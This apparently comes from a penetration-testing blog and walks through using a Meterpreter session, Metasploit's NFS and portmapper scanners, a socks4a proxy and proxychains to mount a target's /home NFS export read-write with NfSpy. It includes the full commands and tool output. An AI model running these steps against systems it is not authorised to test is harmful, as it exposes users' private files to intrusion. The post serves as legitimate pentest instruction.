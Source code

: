 = Mounting NFS shares through Meterpreter with NfSpy
:hp-tags: tools, nfs

You've found an NFS share on a pentest, it's sharing out your target's home directories (/home) and some SAN with all of the Windows AD users "home" directories under /volumes/users/. You only have a meterpreter session though... enough back story, problem is that Metasploit doesn't really have any auxiliary modules or otherwise to access the things on those shares. Please correct me if I'm wrong, but there also aren't any tools for talking to NFS shares over TCP only proxies.

Enter NfSpy: [https://github.com/bonsaiviking/NfSpy](https://github.com/bonsaiviking/NfSpy)

While it's original intent was aide in bypassing NFS security controls it has the right amount of options to make mounting NFS over Meterpreter possible.

First we setup up our route so that the aux module will go over the meterpreter session:

```
route add 192.168.1.0 255.255.255.0 1
```

The 1 on the end being the meterpreter session number it's going to be going through. Next up is to find out what exports are available:


```    
msf > use auxiliary/scanner/nfs/nfsmount
msf auxiliary(nfsmount) > show options

Module options (auxiliary/scanner/nfs/nfsmount):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    111              yes       The target port
   THREADS  1                yes       The number of concurrent threads<

msf auxiliary(nfsmount) > set RHOSTS 192.168.1.50
RHOSTS => 192.168.1.50
msf auxiliary(nfsmount) > run
[+] 192.168.1.50 NFS Export: /home [192.168.1.0/24]
[+] 192.168.1.50 NFS Export: /volume/users [192.168.1.0/24]
```
  
Looks like access is restricked by IP range, but luckily the victim is in said range. The final piece of information we need is the TCP port(s) that mountd is listening on. There is a metasploit module that can help use there too:

``` 
msf > use auxiliary/scanner/misc/sunrpc_portmapper
msf auxiliary(sunrpc_portmapper) > show options

Module options (auxiliary/scanner/misc/sunrpc_portmapper):

   Name     Current Setting  Required  Description<
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target address range or CIDR identifier
   RPORT    111              yes       The target port
   THREADS  1                yes       The number of concurrent threads

msf auxiliary(sunrpc_portmapper) > set RHOSTS 192.168.1.50
RHOSTS => 192.168.1.50
msf auxiliary(sunrpc_portmapper) > run

[+] 192.168.1.50 - Programs available
        rpcbind - 111/tcp
        rpcbind - 111/udp
        status - 46797/udp
        status - 55731/tcp
        nfs - 2049/tcp
        nfs_acl - 2049/tcp
        nfs - 2049/udp
        nfs_acl - 2049/udp
        nlockmgr - 54167/udp
        nlockmgr - 38216/tcp
        mountd - 52569/udp<
        mountd - 37719/tcp
        mountd - 39099/udp
        mountd - 55763/tcp
        mountd - 37808/udp
        mountd - 54457/tcp
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Cool, so lets target /home first with the mountd tcp port of 37719. Keeping our route where it is we set up Metasploit's socks proxy:

```
msf > use auxiliary/server/socks4a
msf auxiliary(socks4a) > show options

Module options (auxiliary/server/socks4a):
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The address to listen on
  SRVPORT  1080             yes       The port to listen on.

msf auxiliary(socks4a) > set SRVPORT 9050
SRVPORT => 9050
msf auxiliary(socks4a) > set SRVHOST 127.0.0.1
SRVHOST => 127.0.0.1
msf auxiliary(socks4a) > run
[*] Auxiliary module execution completed
[*] Starting the socks4a proxy server
```

I chose 9050 as my SRVPORT since I have proxychains already set up for that port (ala tor) and I highly recommend setting the SRVHOST to 127.0.0.1, unless you either firewall that port off from the Internet or don't mind having the Anons of the world surf through your meterpreter session into your clients.

Next up it actually using nfspy (create or prep a directory so you can mount it first):

```
proxychains nfspy -d -o server=192.168.1.50:/home,nfsport=2049/tcp,mountport=37719/tcp,rw /root/nfspy/mount
ProxyChains-3.1 (http://proxychains.sf.net)
FUSE library version: 2.8.6
nullpath_ok: 0
unique: 1, opcode: INIT (26), nodeid: 0, insize: 56
INIT: 7.16
flags=0x0000007b
max_readahead=0x00020000
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.1.50:37719-<><>-OK
|S-chain|-<>-127.0.0.1:9050-<><>-192.168.1.50:2049-<><>-OK
  INIT: 7.12
  flags=0x00000011
  max_readahead=0x00020000
  max_write=0x00020000
  unique: 1, success, outsize: 40
```

`proxychains nfspy -d -o server=192.168.1.50:/home,nfsport=2049/tcp,mountport=37719/tcp,rw /root/nfspy/mount`

Lets break that command down. Proxychains will wrap nfspy so that it goes through our Metasploit Socks4a proxy. The -d tells NfSpy to stay in the foreground, and -o for options. Server is our target IP, only use a hostname if your attacker box can resolve it to the right IP. The export we found with the Metasploit module is up next, and the default NFS port of 2049. The mountport option is from the port mapper Metasploit module. Both of these port options be sure you specify the /tcp or you'll just be waiting as there isn't really a time out and Proxychains doesn't show UDP attempts. RW for read-write and finally the location to mount to.

If you see that second proxychains request for port 2049 it is usually a good indicator that it worked, if not you have probably run into anything from a permissions issue to a local mount problem. NfSpy uses fuse which can be really silent when problems arrise or give errors that tell you nothing meaningful. Thats why I'm using the -d option that keeps nfspy in the foreground, just so I can detect any issues. Lets see if that worked:

```
ls /root/nfspy/mount
user1
user2
user3
user4
```

Remember, big directories might take a while to navigate being tunneled like this. Here is the output from the ls on the nfspy side:

```
unique: 166, opcode: OPENDIR (27), nodeid: 34, insize: 48
   unique: 166, success, outsize: 32
unique: 167, opcode: READDIR (28), nodeid: 34, insize: 80
readdir[0] from 0
   unique: 167, success, outsize: 208
unique: 168, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user3
getattr /home/user3
   NODEID: 40
   unique: 168, success, outsize: 144
unique: 169, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user1
getattr /home/user1
   NODEID: 41
   unique: 169, success, outsize: 144
unique: 170, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user4
getattr /home/user4
   NODEID: 42
   unique: 170, success, outsize: 144
unique: 171, opcode: LOOKUP (1), nodeid: 34, insize: 46
LOOKUP /home/user2
getattr /home/user2
   NODEID: 43
   unique: 171, success, outsize: 144
```

Thats it. You can mount read-write (rw) or read-only (ro) depending on what you want to do and how quiet you want to be.

Last note, you can't just CTRL-C an nfspy mount, you need to use `fusermount -u /root/nfspy/mount` to kill it. It's another fuse issue. If anyone has a better way to do this I'm all ears.
